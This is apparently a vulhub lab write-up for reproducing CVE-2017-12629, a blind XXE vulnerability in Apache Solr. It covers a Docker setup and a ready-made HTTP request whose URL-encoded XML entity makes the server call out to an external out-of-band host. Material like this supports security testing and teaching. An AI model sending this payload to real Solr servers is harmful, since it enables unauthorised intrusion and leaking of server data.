

# Apache solr XML Entity Injection Vulnerability (CVE-2017-12629)

The principle and analysis of the vulnerability can be referred to:

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr is an open source search server. Solr is developed in the Java language and is based primarily on HTTP and Apache Lucene. The principle is roughly that documents are added to a search collection using Http using Http. Querying this collection is also done by receiving an XML/JSON response via http. In the previous version of 7.1.0, two vulnerabilities were discovered: XML Entity Extension Vulnerability (XXE) and Remote Command Execution Vulnerability (RCE), which can be connected into a utilization chain, numbered CVE-2017-12629.

This environment only tests XXE vulnerabilities, RCE and utilization chains, which can be viewed at https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE.

## Environment Building

Run the vulnerability environment:

```
Docker-compose up -d
```

After the command is successfully executed, you need to wait for a while, then visit `http://your-ip:8983/` to view the Apache solr management page without logging in.

## Vulnerability recurrence

Since the return packet does not contain the information in the XML we passed in, this is a Blind XXE vulnerability. We send the following packet (self-modifying the XXE Payload):

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A %3C!ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2Fxxe.675ba661.2m1.pw%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F %3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

Accept requests from Java:



However, the OOB attack of Java XXE can only read part of the content using the high version of ftp, but it has not been solved yet. The relevant information is as follows:

- http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html
- https://blog.zsec.uk/blind-xxe-learning/